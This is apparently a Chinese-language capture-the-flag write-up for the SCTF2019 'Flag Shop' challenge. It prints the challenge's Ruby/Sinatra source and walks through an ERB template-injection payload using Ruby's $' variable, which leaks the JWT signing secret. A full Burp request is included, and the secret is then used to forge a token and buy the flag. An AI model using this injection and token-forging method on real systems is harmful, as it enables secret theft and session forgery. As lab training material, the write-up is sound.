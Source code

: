 # [SCTF2019]Flag Shop

[题目地址](https://buuoj.cn/challenges#[SCTF2019]Flag%20Shop)

怎么还有ruby啊？

开局穷人，flag价格贵上天，我们只有2位数的钱。有个work按钮，按一次就给一点钱，根本不够。打工是不可能打工的，这辈子都不可能打工的。去看robots.txt，发现目录/filebak。里面是网站源码。

```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end
```

md完全看不懂，找[wp](https://blog.csdn.net/Mrs_H/article/details/121493970)。了解到了ruby里的模板注入：[ERB模板注入](https://www.zhihu.com/column/p/29440823)。基本思路是，ERB里用标签插入代码，<%=%>是插入内置代码的输入内容，或者说值；<%%>单纯就是插入代码。

程序里使用了jwt，去看看cookie。发现jwt里记录了钱的数量，如果我们能随意修改就好了。现在暂时不行，因为修改值重新加密需要密钥。程序里不是有个ENV["SECRET"]吗，能不能尝试输出它的值？看下面的代码：

```ruby
  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result 

  end
```

#{}是ruby里的字符串内插语法。因为整个`<script>alert('#{params[:name][0,7]} working successfully!')</script>`都被放入了ERB进行渲染，name又能自由控制，这不是就能借此输出ENV["SECRET"]了吗？

没那么简单。这个语句块有if限制。params[:name][0,7]是ruby的[字符串操作](https://ruby-doc.org/core-2.1.0/String.html)，name不能超过7个字符。同时do的内容需要是xxx is working（xxx是name的值）。name有长度限制就很烦，直接输出secret肯定超了。没关系，ruby有[预定义变量](https://blog.csdn.net/TomorrowAndTuture/article/details/108565910)，可以用`$'`，表示最后一次模式匹配中匹配部分之后的字符串。为什么用这个？因为下面的代码：

```ruby
unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
end
```

这个[unless](https://www.runoob.com/ruby/ruby-decision.html)和if相反，当条件是假时才会执行语句块内的内容。这里只要我们不给SECRET传值，就会执行到里面的匹配。不传值情况下能匹配到完整的SECRET，用`$'`就能获取它的值。于是构造payload：

- `?name=<%=$'%>&do=<%=$' is working%>&SECRET=`

放进bp：

```
GET /work?name=%3C%25=$%27%25%3E&do=%3C%25=$%27%25%3E%20is%20working&SECRET= HTTP/1.1
Host: a3b40d93-0b9d-475c-801c-8e5462912995.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: */*
Referer: http://a3b40d93-0b9d-475c-801c-8e5462912995.node4.buuoj.cn:81/shop
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: auth=eyJhbGciOiJIUzI1NiJ9.eyJ1aWQiOiIzNjRjMzZlNC0xOTA2LTQwZTctOTZlZi1hZDlhNzA1Y2U5ZTkiLCJqa2wiOjIwfQ.LXNhq7GQHMiEAvl28pGKCLk6b-4sCgvq5_PAlMMWglg
Connection: close
```

服务器返回密钥。现在就能任意改钱数了，钱改够后换个jwt，买到flag。